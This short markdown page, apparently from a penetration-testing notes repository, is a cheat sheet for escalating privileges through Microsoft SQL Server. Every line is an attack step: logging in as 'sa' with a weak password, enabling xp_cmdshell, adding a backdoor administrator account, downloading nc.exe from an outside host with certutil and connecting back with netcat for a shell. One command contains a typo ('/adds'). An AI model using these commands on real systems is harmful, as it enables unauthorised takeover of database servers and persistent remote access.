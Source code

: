 ### SQL Services  privilege escalation
|for Example  |
| ------------- |
|python mssqlclient.py sa:123456@192.168.100.120|
|> EXEC sp_configure 'show advanced options', 1;|
|> EXEC sp_configure reconfigure;|
|> EXEC sp_configure 'xp_cmdshell', 1;|
|> EXEC sp_configure reconfigure;|
|> EXEC master.dbo.xp_cmdshell 'whoami';|
|> EXEC master.dbo.xp_cmdshell 'net localgroup administrators';|
|> EXEC master.dbo.xp_cmdshell 'net user NyaMeeEain 123456@aA /adds';|
|> EXEC master.dbo.xp_cmdshell 'net localgroup administrators /add NyaMeeEain';|
|> EXEC master.dbo.xp_cmdshell 'certutil.exe -urlcache -split -f  http://192.168.100.104:9090/nc.exe  c:\\windows\\Users\\Public\\nc.exe';|
|EXEC master.dbo.xp_cmdshell 'nc.exe  -nv 192.168.100.104 4444';
|

